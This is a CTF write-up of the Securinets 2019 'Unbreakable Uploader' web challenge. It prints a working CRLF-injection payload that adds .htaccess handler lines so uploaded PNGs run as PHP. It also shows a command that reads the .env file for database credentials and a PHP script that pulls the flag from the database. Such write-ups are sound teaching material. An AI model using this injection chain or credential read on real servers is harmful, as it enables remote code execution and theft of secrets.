 ```yaml
---
layout: post
title: Unbreakable Uploader
category: Securinets Prequals 2019
---
```


Hello folks , this time we played Securinets CTF Quals 2019 for 24 hours

I will try to explain the latest Web Unbreakable Uploader challenge (2 solves)

Its amazing task where you need to chain multi bugs to get RCE 

OK lets start

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54940468-11109c00-4f2b-11e9-84ad-dcdd1e074393.png"></p>

We must exploit the unknown vulnerability (for the moment), access this database of challenges and find the hidden FLAG :D

Not bad at all guys, challenge accepted!

So as far as we can do :
```
  1-Upload any jpeg/png file
  2-Deny / Allow access to our uploads folder (every user has his own folder : https://web3.ctfsecurinets.com//md5($_SERVER['REMOTE_ADDR'])/md5(random_string).extension )
```
Example to deny access to our folder files

We just can input "all" or "0.0.0.0" and set Action to deny then ADD

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54941766-eb38c680-4f2d-11e9-8563-4309418ce71d.png"></p>

We are trying to access our uploaded image, we can confirm that the Deny action is working properly

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54941817-0dcadf80-4f2e-11e9-9df3-642738d113f5.png"></p>

First, when we look at this task and read the name of the challenge, we say it is a basic upload bypass.

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54940608-53d27400-4f2b-11e9-8c0e-931de5237264.png"></p>

After trying for more than 1h to bypass this upload , try normal stuff to break the upload check and upload php file or inject php in png IDAT chunks and other tricky way but we failed :(

Admin this moment be like

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54941131-64cfb500-4f2c-11e9-8c6a-e4b4e55d8791.jpg"></p>

Ok here we start to take things more serious !

Lets begin again 

We have deny / allow process , what it can be ? 

```
1-Nginx module
2-.htaccess
3-or maybe something else!
```

So we said why not play with the configuration itself, if we could inject another configuration line on these files, we might be able to bypass upload.

```
Exp : 
AddType application/x-httpd-php .png
AddHandler application/x-httpd-php .png
the AddType in an .htaccess file can tell the server to run png extension as PHP
```

So we need to make CRLF injection to create new line , what we want to do :

```
allow from OUR_INPUT <-- inject input that create new line in config file
```

So basically if we can injection new lines we are done here :D

```
to inject this 
0.0.0.0 AddType application/x-httpd-php .png AddHandler application/x-httpd-php .png
```

To be this one 
```
allow from 0.0.0.0
AddType application/x-httpd-php .png
AddHandler application/x-httpd-php .png
```

we should encode our input and do CRLF injection using %0d%0a as simple way

```
We get this payload as input :
0.0.0.0%0d%0aAddType%20application%2Fx-httpd-php%20.png%0d%0aAddHandler%20application%2Fx-httpd-php%20.png

%0d%0a: CRLF
```

Inject php code inside png file and try to upload it .

Lets check before / after 

This one before inject our payload :  

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54944722-71f0a200-4f34-11e9-8233-b0ab121b7b7c.png"></p>

And this after inject :

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54944718-71580b80-4f34-11e9-9142-9f9edeb235d2.png"></p>

Ok here we are done , next please :D

Lets do some RCE Stuff

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54944939-f4796180-4f34-11e9-9e94-b795c6a053eb.png"></p>

```
cat ../../../.env | less

# Configure your db driver and server_version in config/packages/doctrine.yaml
DATABASE_URL=mysql://symfony_admin:Securinets_dB_P455W0Rd_369@127.0.0.1:3306/symfony_task_3

```
<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54945228-9c8f2a80-4f35-11e9-832a-cc35b8aa24b6.jpg"></p>


Trying to connect to database  "Connection error to database" , it was fake database name "symfony_task_3"

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54945550-6ef6b100-4f36-11e9-87e5-bc66deda8804.jpeg"></p>

Lets just dump user privileges database XD

Find database name : big_database 

So lets find flag and win :)

```
<?php

$link = mysqli_connect("localhost", "symfony_admin", "Securinets_dB_P455W0Rd_369", "big_database");
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
$r = mysqli_query($link,"SELECT * FROM user_details WHERE username like '%ecurinets%' or first_name like '%ecurinets%' or last_name like '%ecurinets%' or gender like '%ecurinets%' or password like '%ecurinets%'");
echo mysqli_error($link);
var_dump(mysqli_fetch_all($r));
?>
```

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54946477-6bfcc000-4f38-11e9-9853-f2c1ee85efbb.png"></p>

And we are done FLAG : Securinets{T00_MuCh_W0rk}

Thank you for reading this write up , well done for my team @DefConUA 1st place with 2 remaining tasks :)
And Thanks to the creator's team for this CTF, especially the Emperor, for this amazing task :)


<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/54945895-31465800-4f37-11e9-80cc-bbc98fd96e5f.png"></p>
